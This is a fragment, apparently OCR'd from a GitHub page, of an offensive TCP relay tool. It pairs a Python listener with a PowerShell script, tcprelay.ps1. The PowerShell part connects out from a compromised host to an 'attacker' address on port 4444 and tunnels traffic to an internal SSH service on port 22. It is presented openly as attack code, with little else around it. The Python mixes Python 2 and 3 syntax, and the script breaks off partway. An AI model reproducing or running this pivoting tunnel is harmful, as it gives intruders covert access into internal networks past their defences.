 ```python
a_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

t_addr = (t_host, t_port)
a_addr = (a_host, a_port)

t_socket.bind(t_addr)
a_socket.bind(a_addr)

t_socket.listen(1)
t_conn, t_caddr = t_socket.accept()
print("Tunnel connection received from {}".format(t_caddr))
print "Start your local application and connect to " + a_host + " on port " + str(a_port)

a_socket.listen(1)
a_conn, a_caddr = a_socket.accept()
print "Application connection received"

t_conn.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER, struct.pack('ii', 1, 0))
a_conn.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER, struct.pack('ii', 1, 0))

while True:
   sock_list = [t_conn, a_conn]
   read_sock, write_sock, error_sock = socksel.select(sock_list , sock_list, sock_list)
   t = 0
   for sock in read_sock:
       if(sock == t_conn):
         t += 1
         data = sock.recv(4096)
         if data:
            a_conn.send(data)
         else:
            sys.exit()
       if(sock == a_conn):
         t += 1
         data = sock.recv(4096)
         if data:
            t_conn.send(data)
         else:
            sys.exit()
   if(t == 0):
      sleep(0.01)
```

Powershell script `tcprelay.ps1`<br />
```powershell
# Target parameters
$tcpTHost = "192.168.100.109"
$tcpTPort = "22"

# Attacker parameters
$tcpAHost = "192.168.1.19"
$tcpAPort = "4444"

try {
   $tcpAClient = New-Object System.Net.Sockets.TcpClient($tcpAHost, $tcpAPort)
}
catch {
   Write-Output "Failed to connect to attacking host"
   exit
}

try {
   $tcpTClient = New-Object System.Net.Sockets.TcpClient($tcpTHost, $tcpTPort)
}
```